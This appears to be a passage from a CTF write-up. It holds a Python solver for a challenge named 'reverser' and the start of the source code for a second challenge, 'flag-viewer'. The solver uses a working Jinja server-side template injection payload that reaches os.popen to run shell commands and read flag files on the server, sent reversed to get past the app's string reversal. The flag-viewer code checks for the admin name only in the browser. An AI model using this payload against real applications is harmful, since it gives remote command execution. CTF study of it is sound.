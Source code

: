 ### Solve

Tried to test `}}7*7{{` (must be reversed), and confirm it contains SSTI.

Solver:

```python
import requests
import re

URL="https://reverser.mc.ax/"

def reverse(text):
    return text[::-1]

s = requests.Session()

# checking for exploit
query = "{{7*7}}"
query = reverse(query)
res = s.post(URL, data={
    "text": query,
})
# SSTI injection works here
# we just need to reverse the string, it'll get reversed again in the server
print(res.text)

query = "{{config.__class__.__init__.__globals__['os'].popen('find / -name *flag* -exec cat {} \\;').read()}}"
res = s.post(URL, data={"text":reverse(query)})
print(''.join(re.findall("Output: .*", res.text)))
```

## flag-viewer

### Description

source code:

```python
import os
import random

from server import Server

server = Server()

@server.get('/')
async def root(request):
    return (200, '''
        <title>Flag Viewer</title>
        <link rel="stylesheet" href="/style.css" />
        <div class="container">
            <h1>The Flag Viewer</h1>
            <form action="/flag" method="POST">
                <input
                    type="text"
                    name="user"
                    placeholder="Username"
                    pattern="^(?!admin).*$"
                    oninvalid="this.setCustomValidity('Name not allowed!')"
                    oninput="this.setCustomValidity('')"
                />
                <input type="submit" value="Submit" />
            </form>
```